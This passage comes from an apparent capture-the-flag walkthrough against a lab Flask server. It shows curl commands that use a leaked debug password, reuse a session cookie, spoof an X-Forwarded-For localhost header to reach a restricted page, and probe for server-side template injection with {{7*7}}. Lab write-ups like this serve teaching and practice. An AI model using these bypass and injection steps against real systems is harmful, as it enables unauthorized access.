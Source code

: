 Let me use curl.

For this, we need a Session Cookie to pass to the GET request for the `/debugresult`&#x20;

```bash
dking@dking ~/Downloads$ curl "http://10.10.87.79:7777/debug?debug=7*7&password=AyhamDeebugg" -I          3 ↵  
HTTP/1.1 200 OK
Server: Werkzeug/2.3.4 Python/3.11.0
Date: Mon, 20 Nov 2023 12:48:16 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2024
Vary: Cookie
Set-Cookie: session=.eJyrVkpJTSpNV7JSMtcyV9JRKkgsLi7PL0oBCiSpK8TEVBgYoBGqQNIwOSamCMQzBnEsQCwzECtVXakWAA61GWY.ZVtVkA.zDcBXmGRyuCfpMzzoMfhxCpMr_c; HttpOnly; Path=/
Connection: close
```

Now we have the Cookie we can pass it as `-b` cookie value.

{% code overflow="wrap" %}
```bash
curl http://10.10.87.79:7777/debugresult -b "session=.eJyrVkpJTSpNV7JSMtcyV9JRKkgsLi7PL0oBCiSpK8TEVBgYoBGqQNIwOSamCMQzBnEsQCwzECtVXakWAA61GWY.ZVtVkA.zDcBXmGRyuCfpMzzoMfhxCpMr_c" -H "X-Forwarded-For: 127.0.0.1"

# outputs.
┌──(ayham㉿AM-Kali)-[~]
└─$ debugging
<span class="result">7*7</span>

</code>
</pre>

```
{% endcode %}

we finally got access to the debugResult page and we see that our input from the debug statement is reflected on the page, and since this is running flask, that makes it vulnerable to `Server Side Template Injection`, to confirm that, let's create another debug statement with the value `{{7*7}}`, and see if it will execute, if we get the output as `49`, we will know for sure that it's vulnerable.

{% hint style="success" %}
I notices the cookie changes for each request, so we must update the cookies for this to work.
{% endhint %}

{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ curl "http://10.10.87.79:7777/debug?debug=\{\{7*7\}\}&password=AyhamDeebugg" -I   

# outputs    
HTTP/1.1 200 OK
Server: Werkzeug/2.3.4 Python/3.11.0
Date: Mon, 20 Nov 2023 12:56:23 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2024
Vary: Cookie
Set-Cookie: session=.eJyrVkpJTSpNV7JSqq421zKvrVXSUSpILC4uzy9KAQomqSvExFQYGKARqkDSMDkmpgjEMwZxLEAsMxArVV2pFgCp1xtW.ZVtXdw.IQ2vDaLLrSEDadueBv-EyerIgCA; HttpOnly; Path=/
Connection: close

# we will use this cookie for the "/debugresult" page.
```
{% endcode %}

